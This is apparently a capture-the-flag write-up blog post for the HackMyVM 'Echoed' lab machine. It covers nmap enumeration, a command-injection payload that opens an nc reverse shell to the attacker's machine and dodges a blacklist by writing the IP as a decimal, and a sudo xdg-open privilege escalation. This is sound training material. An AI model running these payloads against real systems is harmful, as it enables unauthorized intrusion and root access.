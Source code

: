 ```yaml
---
layout: post
author: maxin
title:  "Echoed"
date:   2022-01-01 09:48:24 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Echoed)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Wed Dec 29 20:31:35 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.59
Nmap scan report for 192.168.0.59
Host is up (0.017s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 de:3a:50:8e:5d:21:09:7e:40:3f:b2:07:bb:41:08:7e (RSA)
|   256 5c:57:56:da:e5:1c:3e:bc:9a:a2:8d:6d:21:4e:bc:f9 (ECDSA)
|_  256 f8:aa:dc:d3:27:52:e3:99:32:98:45:5b:52:f0:bc:e1 (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
4444/tcp open  krb524?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 20:34:32 2021 -- 1 IP address (1 host up) scanned in 177.11 seconds
{% endhighlight  %}

# Port 80

{% highlight text  %}
If you dont see Command: prompt in the XXXX port, please restart the VM.
{% endhighlight  %}

# Port 4444

It’s a program that echo what we type, but have some kind of blacklist 

![Untitled](/images/echoed/notBlocked.png)

The following word aren’t block

- numbers
- nc
- -e
- /bin/bash

We can create a reverse shell with those commands

# User

Convert ip to decimal, because  `. (dot)`  is blocked.

[IPv4 Address to IP Decimal Conversion \| IPAddressGuide](https://www.ipaddressguide.com/ip)

{% highlight bash  %}
";nc 3232235736 4444 -e /bin/bash;# 
{% endhighlight  %}
Final payload 

# Root

{% highlight bash  %}
sudo -l

User charlie may run the following commands on echoed:
    (ALL : ALL) NOPASSWD: /usr/bin/xdg-open
{% endhighlight  %}

{% highlight bash  %}
sudo xdg-open /root/root.txt
{% endhighlight  %}
